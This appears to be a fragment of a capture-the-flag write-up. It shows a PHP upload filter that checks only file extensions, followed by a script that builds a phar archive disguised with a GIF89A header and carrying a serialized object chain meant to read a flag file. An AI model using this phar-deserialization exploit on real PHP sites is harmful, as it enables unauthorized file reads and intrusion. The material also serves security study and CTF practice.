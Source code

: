 ```php
    global $_FILES; 
    $allowed_types = array("gif","jpeg","jpg","png"); 
    $temp = explode(".",$_FILES["file"]["name"]); 
    $extension = end($temp); 
    if(empty($extension)) { 
        //echo "<h4>请选择上传的文件:" . "<h4/>"; 
    } 
    else{ 
        if(in_array($extension,$allowed_types)) { 
            return true; 
        } 
        else { 
            echo '<script type="text/javascript">alert("Invalid file!");</script>'; 
            return false; 
        } 
    } 
} 
?>
```

payload

```php
<?php

class C1e4r
{
    public $test;
    public $str;

}

class Show
{
    public $source;
    public $str;

}
class Test
{
    public $file;
    public $params;

}


$c = new Test();
$c->params = Array("source"=>"/var/www/html/f1ag.php");

$b = new Show();
$b->str = Array("str"=>$c);

$a = new C1e4r();
$a->str = $b;

$phar =new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("GIF89A<?php XXX __HALT_COMPILER(); ?>");
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```
